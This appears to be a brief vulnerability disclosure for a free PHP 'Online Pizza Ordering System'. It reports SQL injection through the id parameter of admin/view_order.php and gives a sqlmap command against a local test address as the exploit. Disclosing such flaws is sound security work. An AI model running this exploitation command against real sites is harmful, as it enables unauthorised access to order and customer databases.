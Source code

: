 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223204223057](C:\markdown\images\image-20230223204223057.png)

exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/admin/view_order.php?id=1"
```

![image-20230223204114243](C:\markdown\images\image-20230223204114243.png)